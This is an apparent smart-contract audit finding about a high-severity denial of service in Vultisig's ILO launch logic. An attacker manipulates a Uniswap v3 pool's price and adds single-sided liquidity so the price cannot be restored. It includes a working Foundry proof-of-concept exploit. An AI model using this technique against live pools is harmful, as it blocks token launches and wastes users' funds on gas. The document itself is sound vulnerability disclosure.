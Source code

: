 ## [H] Adversary can prevent the launch of any ILO pool with enough raised capital at any moment by providing single-sided liquidity

[ILOPool.sol#L296](repos/2024-06-vultisig/src/ILOPool.sol#L296)

It is possible to prevent the launch of any ILO pool at any time, including pools that have reached their total raised amount. This can be done at any time and the cost for the attacker is negligible.

Not only this is a DOS of the whole protocol, but the attack can be performed at the very end of the sale, making users lose a lot on gas fees, considering it will be deployed on Ethereum Mainnet. Hundreds or thousands of users will participate in ILO pools via `buy()`, and will have to later call `claimRefund()` to get their "raise" tokens back.

Token launches that were deemed to be successful will be blocked after raising funds from many users, and this will most certainly affect the perception of the token, and its pricing on any attempt of a future launch/sale.

The `ILOManager` contract has a check to assert that the price at the time of the token launch is the same as the one initialized by the project. If they differ the transaction will revert, and the token launch will fail:

```solidity
function launch(address uniV3PoolAddress) external override {
    require(block.timestamp > _cachedProject[uniV3PoolAddress].launchTime, "LT");
    (uint160 sqrtPriceX96, , , , , , ) = IUniswapV3Pool(uniV3PoolAddress).slot0();
@>  require(_cachedProject[uniV3PoolAddress].initialPoolPriceX96 == sqrtPriceX96, "UV3P");
    address[] memory initializedPools = _initializedILOPools[uniV3PoolAddress];
    require(initializedPools.length > 0, "NP");
    for (uint256 i = 0; i < initializedPools.length; i++) {
        IILOPool(initializedPools[i]).launch();
    }

    emit ProjectLaunch(uniV3PoolAddress);
}
```

[ILOManager.sol#L190](repos/2024-06-vultisig/src/ILOManager.sol#L190)

The problem is that `sqrtPriceX96` can be easily manipulated in Uniswap v3 Pools when there is no liquidity in it via a swap with no cost. In theory, this could be mitigated by anyone by swapping back to get back to the original price. But there is an additional problem which makes the severity of the attack even higher. The attacker can add single-sided liquidityll%20only%20be%20able%20to%20supply%20one%20of%20the%20two%20tokens.) to the pool (just the Raise Token) after the price was manipulated.

> When you select a range that is outside the current price range, you will only be able to supply one of the two tokens.

By adding liquidity in ticks greater than the manipulated price, but lower than the expected initial price, it would require the swapper to provide some `SALE_TOKEN`, which should not be available at this moment, since they should all be in the ILO pool.

Even if the project admin has some `SALE_TOKEN`, the attacker can mint a higher amount of liquidity by providing more single-sided `RAISE_TOKEN` liquidity, making the needed amount of `SALE_TOKEN` even higher.

### Proof of Concept

The following Proof of Concept shows how an attacker can make a launch revert after raising capital, at the cost of providing liquidity with only `1 wei` of USDC (Raise Token).

Console Output:

    <<Minting Attack>>
    <<Failed mitigation attempt>>

    uniswapV3SwapCallback()
      amount0 (USDC)       0
      amount1 (SALE_TOKEN) 1

This would be enough to perform an attack that can't be reverted in most cases since no other sale tokens should be circulating before the launch. But for the sake of interest, the minted liquidity and the mitigation amount can be increased to check the values needed to get back to the initial price in different situations.

POC:

1. Add the import to the top of `test/ILOManager.t.sol`.
2. Add the test to the `ILOManagerTest` contract in `test/ILOManager.t.sol`.
3. Run `forge test --mt testManipulatePriceForLaunch -vv`.

```solidity
import "../lib/v3-core/contracts/interfaces/IUniswapV3Pool.sol";
import "forge-std/console.sol";
```

```solidity
function testManipulatePriceForLaunch() external {
    IILOManager.InitPoolParams memory params = _getInitPoolParams();
    _initPool(PROJECT_OWNER, params);

    assertEq(IUniswapV3Pool(projectId).token0(), USDC);
    assertEq(IUniswapV3Pool(projectId).token1(), SALE_TOKEN);

    vm.label(USDC, "USDC");
    vm.label(SALE_TOKEN, "SALE_TOKEN");
    vm.label(projectId, "UNI_V3_POOL");
    vm.label(address(this), "ATTACKER");

    unsuccessfulPriceManipulation();

    priceManipulationAttack();

    vm.warp(LAUNCH_START+1);
    vm.expectRevert(bytes("UV3P"));
    iloManager.launch(projectId);
}

function unsuccessfulPriceManipulation() internal {
    uint160 initialPrice = mockProject().initialPoolPriceX96;
    uint160 MIN_SQRT_RATIO = 4295128739 + 1;

    // Check price before attack
    (uint160 sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), initialPrice);

    // Attack
    IUniswapV3Pool(projectId).swap(address(this), true, 1, MIN_SQRT_RATIO, "");
    (sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), MIN_SQRT_RATIO);

    // Mitigation
    IUniswapV3Pool(projectId).swap(address(this), false, 1, initialPrice, "");
    (sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), initialPrice);
}

function priceManipulationAttack() internal {
    uint160 initialPrice = mockProject().initialPoolPriceX96;
    uint160 MIN_SQRT_RATIO = 4295128739 + 1;

    // Check price before attack
    (uint160 sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), initialPrice);

    // Attack -> Swap to manipulate price
    IUniswapV3Pool(projectId).swap(address(this), true, 1, MIN_SQRT_RATIO, "");
    (sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), MIN_SQRT_RATIO);

    // Attack -> Mint to prevent swapping back
    console.log("\n<<Minting Attack>>");
    deal(USDC, address(this), 1);
    int24 OUTSIDE_TICK = 0;
    IUniswapV3Pool(projectId).mint(address(this), OUTSIDE_TICK-10, OUTSIDE_TICK+10, 1, "");

    // Mitigation doesn't work now
    // You can uncomment the `expectRevert` and run the test with `-vvvv`
    // You'll see the log `ATTACKER::uniswapV3SwapCallback(0, 1, 0x)`, which means that it expects 1 wei of SALE_TOKEN
    // This is not possible as all SALE_TOKENs should be in the ILOPool at this moment
    console.log("\n<<Failed mitigation attempt>>");
    vm.expectRevert(bytes("IIA"));
    IUniswapV3Pool(projectId).swap(address(this), false, 1, initialPrice, "");

    // The price will remain the one set by the attacker
    (sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), MIN_SQRT_RATIO);
}

function uniswapV3MintCallback(uint256, uint256, bytes memory) external {
    IERC20(USDC).transfer(projectId, IERC20(USDC).balanceOf(address(this)));
}

function uniswapV3SwapCallback(int256 amount0, int256 amount1, bytes memory) external {
    assertGe(amount0, 0);
    assertGe(amount1, 0);

    console.log("\nuniswapV3SwapCallback()");
    console.log("amount0 (USDC)      ", uint256(amount0));
    console.log("amount1 (SALE_TOKEN)", uint256(amount1));
}
```





